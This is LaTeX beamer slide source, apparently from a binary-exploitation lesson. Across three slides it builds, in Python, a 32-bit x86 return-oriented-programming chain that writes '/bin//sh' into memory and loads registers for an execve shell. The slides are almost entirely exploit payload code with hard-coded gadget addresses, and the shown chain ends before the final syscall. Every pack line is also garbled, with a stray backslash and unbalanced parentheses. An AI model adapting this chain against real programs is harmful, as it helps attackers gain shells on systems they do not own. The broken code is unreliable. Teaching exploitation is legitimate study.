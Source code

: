 \documentclass[11pt]{beamer}
\begin{document}
\subsection{Generating the payload}
\begin{frame}[fragile]
    \frametitle{Generating the payload, writing /bin}
    \begin{lstlisting}[style=code, language=python]
from struct import pack

p = 'AAAABBBBCCCC'
p += str(pack\('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f6c) # @ .data
p += str(pack\('<I', 0x00000000) # @ NULL
p += str(pack\('<I', 0x080b526a) # pop eax ; ret
p += '/bin'
p += str(pack\('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, writing //sh}
    \begin{lstlisting}[style=code, language=python]
p += str(pack\('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f70) # @ .data + 4
p += str(pack\('<I', 0x00000000) # @ NULL
p += str(pack\('<I', 0x080b526a) # pop eax ; ret
p += '//sh'
p += str(pack\('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, init params}
    \begin{lstlisting}[style=code, language=python]
# write null byte after /bin/sh
p += str(pack\('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f74) # @ .data + 8
p += str(pack\('<I', 0x00000000) # @ NULL
p += str(pack\('<I', 0x080506c0) # xor eax, eax ; ret
p += str(pack\('<I', 0x08059402) # mov dword ptr [edx], eax ; ret
# write address of /bin/sh to ebx
p += str(pack\('<I', 0x08049022) # pop ebx ; ret
p += str(pack\('<I', 0x080f0f6c) # @ .data
# arguments and environment to ecx,edx
p += str(pack\('<I', 0x0805e64f) # pop ecx; add al, 0xf6; ret;
p += str(pack\('<I', 0x080f0f74) # @ .data + 8
p += str(pack\('<I', 0x080958b5) # pop edx; xor eax, eax; pop edi; ret;
p += str(pack\('<I', 0x080f0f74) # @ .data + 8
p += str(pack\('<I', 0x00000000) # @ NULL
    \end{lstlisting}
\end{frame}
\end{document}
